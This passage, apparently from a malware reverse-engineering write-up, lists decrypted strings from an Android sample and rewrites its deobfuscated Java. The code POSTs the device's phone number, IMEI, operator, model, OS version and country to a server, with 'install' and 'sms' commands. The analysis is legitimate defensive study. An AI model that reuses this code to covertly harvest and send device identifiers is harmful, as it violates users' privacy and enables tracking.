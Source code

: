 >12: and  
>13: *2  
>14: us  
>15: new  
>16: 9999999  
>17: _per  
>18: text  
>19: del  
>20: 7900  
>21: ehv  
>22: 1*  
>23: inst  
>24: all_true  
>25: url  
>26: _number  
>27: sd  
>28: _id  
>29: call  
>30: ab  
>31: model  
>32: version  
>33: os
>34: ei  
>35: im  
>36: country
> ```

We can then rewrite the code in this way:

> ```java
>public JSONObject q(String paramString){
>	JSONObject jsonObj = null;
>	r localr = new r();
>	this.e.add(new BasicNameValuePair("method", this.r)); //the string given in the constructor
>	this.e.add(new BasicNameValuePair("id", this.w.getString("id", null))); //this.w: SharedPreferences
>	if (this.r.startsWith("install")) {
>		return localr.q(paramString, q.Q, q());
>	}
>	else if (this.r.startsWith("info") || this.r.startsWith(q.d)){
>		return localr.q(paramString, q.Q, this.e);
>	}
>	return jsonObj;
>}
> ```

knowing that
* `q.Q = "POST"` (decrypted)
* `q.d = "sms"` (decrypted),
* `r` is a class used to send HTTP request (which is consistent with `q.Q`)
* and finally, the list returned by `q()` contains these values (once decrypted):
> ```java
>public List q(){
>	this.e.add(new BasicNameValuePair("operator", o.o(q)));	//param q : Context
>	this.e.add(new BasicNameValuePair("model", Build.MODEL));
>	this.e.add(new BasicNameValuePair("os", Build.VERSION.RELEASE));
>	this.e.add(new BasicNameValuePair("phone", o.y(q)));
>	this.e.add(new BasicNameValuePair("imei" , o.t(q)));
>	this.e.add(new BasicNameValuePair("version", bo.w));
>	this.e.add(new BasicNameValuePair("country", o.w(q)));
>	return this.e;
>}
> ```
